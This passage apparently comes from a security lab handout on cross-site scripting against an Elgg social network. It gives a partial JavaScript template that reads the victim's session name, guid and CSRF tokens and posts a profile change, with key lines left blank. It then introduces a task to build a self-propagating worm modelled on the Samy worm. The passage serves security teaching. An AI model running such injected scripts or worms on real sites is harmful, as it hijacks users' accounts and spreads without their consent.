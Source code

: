 ```
<script type="text/javascript">
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content of your url.
    var content=...; //FILL IN

    var samyGuid=...; //FILL IN

    var sendurl=...; //FILL IN

    if(elgg.session.user.guid!=samyGuid) ¿
    {
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
  }
}
</script>
```
Similar to Task 4, the above code should be placed in the "`About Me`" field of Samy’s profile page,
and the Text mode should be enabled before entering the above JavaScript code.

**Questions.** Please answer the following questions:


- Question 3:Why do we need Line¿? Remove this line, and repeat your attack. Report and explain
    your observation.

### 3.7 Task 6: Writing a Self-Propagating XSS Worm

To become a real worm, the malicious JavaScript program should be able to propagate itself. Namely,
whenever some people view an infected profile, not only will their profiles be modified, the worm will also
be propagated to their profiles, further affecting others who view these newly infected profiles. This way,
the more people view the infected profiles, the faster the worm can propagate. This is exactly the same
mechanism used by the Samy Worm: within just 20 hours of its October 4, 2005 release, over one million
users were affected, making Samy one of the fastest spreading viruses of all time. The JavaScript code that
can achieve this is called aself-propagating cross-site scripting worm. In this task, you need to implement
such a worm, which not only modifies the victim’s profile and adds the user “Samy” as a friend, but also
add a copy of the worm itself to the victim’s profile, so the victim is turned into an attacker.
To achieve self-propagation, when the malicious JavaScript modifies the victim’s profile, it should copy
itself to the victim’s profile. There are several approaches to achieve this, and we will discuss two common
approaches.
